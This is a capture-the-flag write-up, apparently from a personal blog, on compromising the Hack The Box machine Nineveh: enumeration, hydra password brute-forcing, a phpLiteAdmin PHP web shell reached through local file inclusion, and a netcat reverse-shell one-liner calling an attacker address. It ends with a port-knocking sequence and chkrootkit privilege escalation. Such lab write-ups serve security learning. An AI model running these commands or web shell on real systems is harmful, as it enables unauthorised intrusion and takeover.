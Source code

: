 ```yaml
---
layout: PostSimple
date: 2020-02-02
title:     "Hack The Box - Nineveh"
tags: ['linux','medium','knockd','lfi','php','cron']
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/1.png)

We are going to pwn Nineveh from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/54](https://www.hackthebox.eu/home/machines/profile/54)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/2.png)

Lets start our Gobuster and see whats in the webpage.


## GoBuster Results

> http://nineveh.htb/

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.43
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/01/23 20:31:19 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/info.php (Status: 200)
/server-status (Status: 403)
/department (Status: 301)
===============================================================
2020/01/23 20:33:44 Finished
===============================================================
```

While looking at the webpages , found a login page in ```/department/login.php```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/3.png)

So I tried admin:admin I get invalid password so there must be admin user , lets try bruteforce using ``hydra``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/4.png)

Before that we need to capture the login intercept in burp to see how username and password are represented!

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/5.png)

Now start ``hydra``

``` hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 -V -f http-post-form '/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:invalid password' ```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/6.png)


```
-f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
-v / -V / -d  verbose mode / show login+pass for each attempt / debug mode 
```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/7.png)[br/](br/)
We got the creds ```admin:1q2w3e4r5t```

Lets try login[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/8.png)

While checking the ``Notes`` tab it show us some message, I have no idea what it is so lets enumerate more!! And It looks like LFI on the URL.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/9.png)

So we know there is a ``HTTPS Port (443)`` is open so lets see whats there

### Dirsearch Results

>https://nineveh.htb/

```
 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions: html, php, txt | HTTP method: get | Threads: 10 | Wordlist size: 4614

Error Log: /root/hacking-tools/dirsearch/logs/errors-20-01-24_19-49-47.log

Target: https://10.10.10.43/

[19:49:49] Starting: 
[19:49:50] 200 -   49B  - /
[19:49:51] 403 -  291B  - /.hta
[19:50:27] 301 -  309B  - /db  ->  https://10.10.10.43/db/
[19:50:52] 200 -   49B  - /index.html
[19:51:41] 403 -  300B  - /server-status
```
There is a login page on ``/db``
Found ``phpLiteAdmin v1.9`` , as usual lets search for exploits

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/10.png)

There is an Remote PHP Code Injection
>https://www.exploit-db.com/exploits/24044

For that we need to login first , I tried with ``admin`` ( Which is default creds of phpLiteAdmin) But it doesn't worked!!
So Lets bruteforce again using ``hydra``
Same as before Intercept the login using burp.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/11.png)

Since the login page doesn't have any username so we dont need to worry about ``user``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/12-1.png)[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/12.png)[br/](br/)
So the password is ``password123``

And Im in
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/13.png)

According to the exploit we need to first create a database with the extension of ``.php`` so I created ``ninevehNotes.php``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/14.png)

From there we need to create a table where we need to inject our payload.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/15.png)
``` [?php echo system($_REQUEST["cmd"]); ?](?php echo system($_REQUEST["cmd"]); ?)  ```

Once its created and we already know there is a LFI so I tried to execute there.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/16.png)[br/](br/)
It Worked and Why I named it as ``ninevehNotes.php`` is because we know there is a file called ``ninevehNotes.txt``.

Now Its time to get reverse shell, I send it to burp and used reverse shell code.

``` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f ```[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/17.png)

And I can't read user flag.

While Checking the ``/var/www/ssl`` directory found something called ``secure_notes``
So Lets have a look on it.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/18.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/19.png)

I downloaded it to my machine 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/20.png)

I did ``strings`` and found private key[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/21.png)

We already know ``ssh`` port is filtered it may be because of  ``knockd service``

> Once knockd is installed and running, you modify your firewall rules (e.g. iptables) to drop all incoming traffic to port 22. To the outside world, it's exactly as if you are not running SSH at all.


> Reference : https://www.endpoint.com/blog/2009/11/16/port-knocking-with-knockd

There is a way to bypass it.

> Port Knocking works by opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. Once a correct sequence of connection attempts is received, the firewall will open the port that was previously closed.

So we need the sequence to open the port.

>https://blog.rapid7.com/2017/10/04/how-to-secure-ssh-server-using-port-knocking-on-ubuntu-linux/

From the blog I came to know we can see the sequence in ``/etc/knockd.conf``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/22.png)

Yes I got the sequence , Now its time to open.

> https://www.digitalocean.com/community/tutorials/how-to-use-port-knocking-to-hide-your-ssh-daemon-from-attackers-on-ubuntu

``` for x in 571 290 911; do nmap -Pn --max-retries 0 -p $x 10.10.10.43; done ```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/23.png)

Now we can use the private key to login[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/24.png)

## Privilege Escalation

I uploaded my Linux Enumeration Script and nothing useful , So I tried ``pspy``

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

Looks like ``chrkootkit`` running 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/25.png)

> chkrootkit is a common Unix-based program intended to help system administrators check their system for known rootkits.

I searched in Searchsploit and found
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/26.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/27.png)

I looks like easy , I created a file called Update in ``/tmp`` and started my listener.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/28.png)

Got Root!!



